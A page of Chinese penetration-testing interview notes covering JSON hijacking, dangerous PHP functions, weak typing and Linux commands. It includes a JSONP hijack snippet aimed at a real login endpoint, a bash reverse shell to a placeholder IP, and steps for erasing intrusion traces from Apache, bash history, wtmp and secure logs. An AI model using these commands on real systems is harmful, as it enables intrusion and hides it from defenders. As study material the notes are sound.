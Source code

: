 <a name="Phnf6"></a>
#### 攻击页面
JSON劫持，跨域劫持敏感信息，页面类似于<br />function wooyun(v){ alert(v.username); } </script> <script src="http://js.login.360.cn/?o=sso&m=info&func=wooyun"></script> <br />Content-type不正确情况下，JSONP和Callback内容可定义可造成XSS。 JSONP和FLASH及其他的利用参照知道创宇的JSONP安全攻防技术。
<a name="a1D0R"></a>
## PHP
<a name="Um52W"></a>
### php中命令执行涉及到的函数
1，代码执行：eval()、assert()、popen()、system()、exec()、shell_exec()、passthru(),pcntl_exec(),call_user_func_array(),create_function() 2，文件读取：file_get_contents(),highlight_file(),fopen(),read file(),fread(),fgetss(), fgets(),parse_ini_file(),show_source(),file()等 3，命令执行：system(), exec(), shell_exec(), passthru() ,pcntl_exec(), popen(),proc_open()
<a name="NfmvQ"></a>
### 安全模式下绕过php的disable fuction
DL函数，组件漏洞，环境变量。
<a name="rKtVv"></a>
### PHP弱类型
== 在进行比较的时候，会先将字符串类型转化成相同，再比较<br />如果比较一个数字和字符串或者比较涉及到数字内容的字符串，则字符串会被转换成数值并且比较按照数值来进行<br />0e开头的字符串等于0
<a name="JSiBC"></a>
## 数据库
<a name="N9gvh"></a>
### 各种数据库文件存放的位置
mysql:/usr/local/mysql/data/ C:\ProgramData\MySQL\MySQL Server 5.6\Data\ oracle:$ORACLE_BASE/oradata/$ORACLE_SID/
<a name="Dirr7"></a>
## 系统
<a name="vCZ5d"></a>
### 如何清理日志
meterpreter: clearev
<a name="dI9I1"></a>
### 入侵 Linux 服务器后需要清除哪些日志？
web日志，如apache的access.log,error.log。 直接将日志清除过于明显,一般使用sed进行定向清除<br />e.g. sed -i -e ‘/192.169.1.1/d’<br />history命令的清除，也是对~/.bash_history进行定向清除<br />wtmp日志的清除，/var/log/wtmp<br />登录日志清除 /var/log/secure
<a name="WH8QP"></a>
### LINUX
<a name="TrJ0Y"></a>
#### 查看当前端口连接的命令有哪些？netstat 和 ss 命令的区别和优缺点
netstat -antp` `ss -l <br />ss的优势在于它能够显示更多更详细的有关TCP和连接状态的信息，而且比netstat更快速更高效。
<a name="rFkek"></a>
#### 反弹 shell 的常用命令？一般常反弹哪一种 shell？为什么?
bash -i>&/dev/tcp/x.x.x.x/4444 0>&1 
<a name="UvdAf"></a>
#### 通过Linux系统的/proc目录 ，能够获取到哪些信息，这些信息可以在安全上有哪些应用？
ls /proc <br />系统信息，硬件信息，内核版本，加载的模块，进程
<a name="HBewx"></a>
#### linux系统中，检测哪些配置文件的配置项，能够提升SSH的安全性。
/etc/ssh/sshd___config iptables配置
<a name="QHFwV"></a>
#### 如何一条命令查看文件内容最后一百行
tail -n 100 filename 
<a name="WcFn6"></a>